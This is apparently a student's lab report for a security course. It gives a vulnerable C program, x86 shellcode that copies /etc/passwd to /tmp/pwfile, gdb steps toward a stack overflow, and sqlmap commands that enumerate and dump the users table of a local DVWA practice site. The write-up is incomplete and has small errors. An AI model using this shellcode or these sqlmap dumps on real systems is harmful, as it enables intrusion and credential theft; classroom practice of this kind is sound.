 # Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```
<img src="image.png">

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```
![alt text](image-1.png)

b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```
![alt text](image-2.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:
![alt text](image-3.png)

b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:
![alt text](image-4.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

